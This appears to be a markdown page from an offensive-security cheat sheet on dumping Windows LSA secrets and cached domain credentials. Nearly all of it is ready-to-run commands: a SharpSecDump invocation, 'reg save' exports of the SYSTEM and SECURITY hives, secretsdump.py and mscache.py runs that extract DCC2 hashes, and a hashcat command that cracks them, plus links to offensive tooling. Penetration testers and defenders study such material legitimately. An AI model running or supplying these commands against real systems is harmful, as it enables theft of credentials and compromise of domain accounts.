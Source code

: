 ```yaml
---
description: Local Security Authority
---
```


# LSA

* [https://www.passcape.com/index.php?section=docsys&cmd=details&id=23](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)
* [https://sensepost.com/blog/2024/dumping-lsa-secrets-a-story-about-task-decorrelation/](https://sensepost.com/blog/2024/dumping-lsa-secrets-a-story-about-task-decorrelation/)




## SharpSecDump

* [https://github.com/G0ldenGunSec/SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)

Decrypt LSA secrets on target:

```
PS > Invoke-SharpSecDump -C "-target=127.0.0.1"
```




## MSCash2/MSCache2 (DCC2)

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

Domain cached credentials are stored within **LSA secrets** in `HKLM:\SECURITY` registry hive:

```
Cmd > reg save hklm\system system.hive
Cmd > reg save hklm\security security.hive
```



### secretsdump.py

Export registry hives and extract cached creds locally with `secretsdump.py`:

```
$ secretsdump.py -system system.hive -security security.hive LOCAL
```



### mscache.py

* [https://github.com/QAX-A-Team/mscache/blob/master/mscache.py](https://github.com/QAX-A-Team/mscache/blob/master/mscache.py)

Export registry hives and extract cached creds locally with `mscache.py`:

```
$ python mscache.py --system system.hive --security security.hive
```



### Crack

```
$ hashcat -m 2100 -O -a 0 -w 3 --session=dcc2 -o dcc2.out dcc2.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```
